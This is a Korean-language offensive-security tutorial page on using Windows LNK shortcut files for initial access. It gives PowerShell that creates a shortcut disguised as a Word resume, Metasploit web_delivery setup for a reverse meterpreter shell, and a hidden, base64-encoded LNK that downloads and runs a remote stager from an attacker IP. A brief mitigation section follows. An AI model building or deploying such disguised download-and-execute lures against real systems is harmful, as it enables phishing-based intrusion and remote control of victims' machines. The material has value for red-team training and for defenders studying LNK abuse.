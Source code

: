 # LNK

윈도우의 바로가기 파일은 `.LNK` 확장자를 갖고 있으며, 최대 255자의 `targetpath` 파라미터와 4096자의 `argument` 를 실행할 수 있다. 초기 침투 시 단일 파일로 사용될 수도 있지만, 짧은 커맨드 길이 때문에 다른 페이로드들을 실행시키는데 더 자주 사용된다.&#x20;

수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다.&#x20;

* lnk -> Powershell -> 인 메모리 실행&#x20;
* lnk -> .dll download -> DLL side loading / DLL hijacking / LOLBAS with regsvr32.dll&#x20;
* lnk -> Powershell -> HTA&#x20;
* lnk -> .exe + DLL sideloading&#x20;

DLL 사이드로딩과 관련된 APT 29의 LNK + DLL Sideloading 기법은 다음 페이지에서 볼 수 있다 (TODO)&#x20;

### 실습&#x20;

다음은 `cmd.exe` 바이너리를 실행하는 간단한 LNK 파일을 만드는 파워쉘 명령어다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\opt\lnk\Choi_Resume_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start cmd.exe"
$link.save()
```

마이크로소프트 워드의 아이콘을 갖은 LNK 파일을 생성해낸다. 오른쪽 클릭해서 shortcut을 확인해보면 `Target` 에 위에서 만든 페이로드인 `%windir%/system32/cmd.exe` 를 실행한다.&#x20;

![](<../../.gitbook/assets/image (10) (1).png>)

### 실습 - 2&#x20;

다음은 파워쉘 페이로드를 가져와 메모리상에서 실행하는 방법이다. 악용을 막기 위해 AMSI bypass 등은 실행하지 않는다. 먼저 개념 증명용 페이로드를 위해 메타스플로잇을 사용한다.&#x20;

```
msfconsole 
use exploit/multi/script/web_delivery
set pyaload windows/x64/meterpreter/reverse_https 
set lhost <ip> 
set lport <port> 
exploit 

[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.40.182:443
[*] Using URL: http://192.168.40.182:8080/3XQSv3
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e <....>
```

웹 딜리버리를 실행시키면 스테이저 파일이 호스팅된 URL이 나온다. 위 예시의 경우 `http://192.168.40.182:8080/3XQSv3` 여기에 스테이저가 호스팅 되어 있다. 따라서 해당 파일을 메모리상에서 실행하는 LNK 파일을 만들어준다.&#x20;

```
$command = 'iex(new-object net.webclient).downloadstring("http://192.168.40.182:8080/3XQSv3")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\testdefender\Choi_Resume.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "-Nop -w hidden -enc $($encodedCommand)"
$link.save()
```

작전 보안과 방어 우회를 위해서는 호스팅 되어있는 스테이저 파일에 AMSI 우회 코드를 넣어주면 된다. 이 실습은 개념 증명용이니 넘어간다. 해당 LNK 파일을 만들고 실행하면 리버스 쉘을 받을 수 있다.&#x20;



### 대응 방안&#x20;

LNK 파일은 윈도우의 기본적인 바로가기 파일이기 때문에 기술적으로 비활성화 시킬수는 없다. 단, LNK 파일의 `targetPath` 과 `arugments` 에 들어가는 페이로드는 엔드포인트의 디스크위에 쓰일 수 밖에 없다. 따라서 AV/EDR 등의 엔드포인트 방어 솔루션들이 LNK 파일을 잘 분석한다면 충분히 막을 수 있을 것이다. 실제로 간단한 파워쉘 페이로드를 실행시키려고 하면 왠만한 페이로드들은 모두 막힌다.&#x20;

엔드 유저의 입장에서는 LNK 파일에 주의한다. LNK 파일은 기본적으로 확장자가 보이지 않기 때문에 파일 익스플로러에서 `Shortcut` 혹은 `바로가기` 가 있다면 오른쪽 클릭을 해서 `TargetPath` 를 한 번 살펴보는 습관을 들인다.&#x20;

![](<../../.gitbook/assets/image (7) (2).png>)



### 레퍼런스&#x20;

{% embed url="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/" %}

{% embed url="https://docs.google.com/viewerng/viewer?url=https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}
